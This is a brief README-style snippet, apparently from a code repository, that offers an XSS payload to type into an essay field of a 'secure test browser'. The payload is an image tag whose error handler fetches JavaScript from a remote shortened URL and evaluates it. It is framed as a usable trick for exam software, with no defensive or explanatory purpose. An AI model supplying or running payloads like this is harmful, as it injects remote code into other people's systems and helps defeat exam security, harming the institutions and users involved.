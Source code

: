 # ChatGPT Embedded
This can be used for xss in secure test browser just type this into essay question (good luck memorizing it)
```
<img src=# onerror='fetch("https://t.ly/payload").then(r => r.text()).then(eval);'>
```
